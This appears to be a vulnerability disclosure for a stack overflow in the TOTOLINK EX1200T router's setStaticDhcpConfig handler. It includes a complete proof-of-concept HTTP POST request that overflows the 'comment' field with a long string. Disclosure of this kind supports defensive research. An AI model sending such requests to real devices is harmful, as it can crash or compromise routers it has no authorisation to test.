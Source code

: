 # TOTOLINK EX1200T STACK OVERFLOW

## Stack Overflow Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a stack overflow in the function `setStaticDhcpConfig` of the file `lan.so`, we can control the`comment` to attack.

![image-20211102181615964](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211102181615964.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 247

{"topicurl":"setting/setStaticDhcpConfig",
"addEffect":"","enable": "0",
"macAddress":"00:0c:21:ae:e4:44",
"ipAddress":"1.1.1.1",
"comment":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```

